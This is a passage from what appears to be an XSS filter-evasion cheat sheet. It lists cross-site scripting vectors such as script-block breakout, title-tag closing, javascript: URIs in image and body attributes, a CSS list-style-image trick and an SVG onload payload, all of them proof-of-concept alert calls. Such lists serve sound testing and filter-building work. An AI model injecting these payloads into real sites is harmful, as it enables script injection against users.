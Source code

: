 An alternative, if correct JSON or JavaScript escaping has been applied to the embedded data but not HTML encoding, is to finish the script
block and start your own: 
```
     </script><script>alert('XSS');</script>
```
 
### End Title Tag 
This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:
 
```
    </TITLE><SCRIPT>alert("XSS");</SCRIPT> 
```
 #### INPUT Image
 
```
    <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"> 
```
 #### BODY Image
 
```
    <BODY BACKGROUND="javascript:alert('XSS')"> 
```
 #### IMG Dynsrc
 
```
    <IMG DYNSRC="javascript:alert('XSS')"> 
```
 #### IMG Lowsrc
 
```
    <IMG LOWSRC="javascript:alert('XSS')"> 
```
 ### List-style-image
 This esoteric attack focuses on embedding images for bulleted lists. It
will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful XSS vector:
 
```
    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br> 
```
 ### VBscript in an Image
 
```
    <IMG SRC='vbscript:msgbox("XSS")'> 
```
 ### SVG Object Tag
 
```
    <svg/onload=alert('XSS')> 
```
 ### ECMAScript 6
 